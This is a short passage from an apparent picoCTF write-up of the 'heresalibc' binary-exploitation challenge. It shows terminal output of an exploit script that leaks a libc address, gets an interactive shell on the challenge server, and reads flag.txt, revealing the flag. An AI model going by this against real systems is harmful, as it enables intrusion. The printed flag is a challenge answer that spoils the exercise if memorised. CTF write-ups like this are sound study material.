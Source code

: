Connecting to the remote now, we finally get our flag: 

```bash
(Linux_Pwn_Venv) asdiml@DESKTOP-XXXXXX:/mnt/d/CTFs/picoCTF/Pwn/heresalibc$ ./attempt.py
[+] Opening connection to mercury.picoctf.net on port 24159: Done
[*] hex(leak)='0x7f69fa687a30'
[*] hex(libc_base_addr)='0x7f69fa607000'
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_f2ac531bbb3a68ed}$
```